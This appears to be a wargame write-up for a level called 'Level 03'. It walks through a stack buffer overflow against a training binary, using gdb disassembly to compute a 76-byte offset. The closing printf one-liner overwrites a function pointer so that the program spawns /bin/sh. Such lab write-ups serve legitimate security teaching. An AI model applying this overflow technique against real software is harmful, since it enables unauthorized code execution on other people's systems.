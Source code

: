 # Level 03


Out goal is to overwrite the value stored here.
```
        void (*functionpointer)(void) = bad;

```

We can see that the buffer has a length of 50
```
        char buffer[50];
```

There is nothing which constrains the `strlen` of `argv[1]`.  This means we can 
overflow the call `memcpy`.

```
        if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

        memcpy(buffer, argv[1], strlen(argv[1]));
        memset(buffer, 0, strlen(argv[1]) - 4); 
```

First, we need to figure out the distance between the start of `buffer` and the beginning of `functionpointer`.


## Address of `buffer`
First, let's find the address of `buffer`, we can
find that in the call to `memcpy` in the `$eax` register.

```
   0x08048525 <+93>:	lea    eax,[ebp-0x58]
                                    ^^^^^^^^
   0x08048528 <+96>:	mov    DWORD PTR [esp],eax
   0x0804852b <+99>:	call   0x804838c <memcpy@plt>
```

This loads the value of `$ebp - 0x58` into `$eax` and then moves it to
the top of the `$esp` for the call to `memcpy(...)`

This means the address of the `buffer` is at `$ebp - 0x58`.

## Address of `functionpointer`

To find out the address of the function, we look for after the call to `printf`.

```
   0x08048568 <+160>:	call   0x80483ac <printf@plt>
   0x0804856d <+165>:	mov    eax,DWORD PTR [ebp-0xc]
                                              ^^^^^^^
   0x08048570 <+168>:	call   eax
```

We can see that the `call` operation is done on `$eax`, which just had the value of `$ebp - 0xc`. 

## The Difference

We can then determine that offset between the `buffer` and the `functionpointer` is:

`($ebp - 0x58) - ($ebp - 0xc) = 0x4c = 76`.


## Injecting An Address

Our goal of course is for the function pointer to point at the code

```
void good()
{
        puts("Win.");
        execl("/bin/sh", "sh", NULL);
}
```

The address of that is found by `disass good` and finding the head of
it:

```
   0x08048474 <+0>:	push   ebp
   0x08048475 <+1>:	mov    ebp,esp
   ...
```

## Crafting the Exploit

Our input is first `76` useless values followed by the address (in little endian) 
order.

```
./level03 $(printf '%076d\x74\x84\x04\x08')
```